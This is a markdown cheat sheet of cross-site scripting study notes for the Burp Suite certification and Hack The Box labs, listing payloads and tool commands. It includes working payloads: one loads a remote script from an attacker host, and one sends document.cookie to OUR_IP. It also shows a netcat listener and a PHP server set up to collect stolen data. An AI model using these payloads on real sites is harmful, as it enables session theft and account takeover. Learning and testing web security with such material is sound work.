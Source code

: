 # Cross-site Scripting (XSS)  

>Burp Suite Certified Practitioner (BSCP) [My Study Notes on XSS](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study#cross-site-scripting)  

## Commands  

| Code | Description |
| ----- | ----- |
| **XSS Payloads** |
| `<script>alert(window.origin)</script>` | Basic XSS Payload [XSS Testing Payloads](https://academy.hackthebox.com/module/103/section/967) |
| `<script>alert(document.cookie)</script>` | To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url. |
| `<plaintext>` | Basic XSS Payload |
| `http://94.237.62.82:55501/index.php?task=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E` | Reflected XSS, which gets processed by the back-end server, and DOM-based XSS, which is completely processed on the client-side and never reaches the back-end server. |
| `document.getElementById("todo").innerHTML = "<b>Next Task:</b> " + decodeURIComponent(task);` | [Identify DOM-XSS in the JavaScript source of the client browser](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study#identify-dom-xss)  
| `<script>print()</script>` | Basic XSS Payload |
| `<img src="" onerror=alert(window.origin)>` | HTML-based XSS Payload |
| `<img src="" onerror=alert(document.cookie)>` | [DOM Attacks](https://academy.hackthebox.com/module/103/section/974) |
| `<script>document.body.style.background = "#141d2b"</script>` | Change Background Color |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image |
| `<script>document.title = 'HackTheBox Academy'</script>` | Change Website Title |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>` | Overwrite website's main body |
| `<script>document.getElementById('urlform').remove();</script>` | Remove certain HTML element |
| `<script src="http://OUR_IP/script.js"></script>` | Load remote script |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>` | Send Cookie details to us |
| **Commands** |
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"` | Run `xsstrike` on a url parameter |
| `sudo nc -lvnp 80` | Start `netcat` listener |
| `sudo php -S 0.0.0.0:80 ` | Start `PHP` server, to allow the victim to load remote script from attacker. |


## Identify XSS  

>Simple test payload on target with no protection to identify XSS Reflection: [XSS Discovery](https://academy.hackthebox.com/module/103/section/982)  
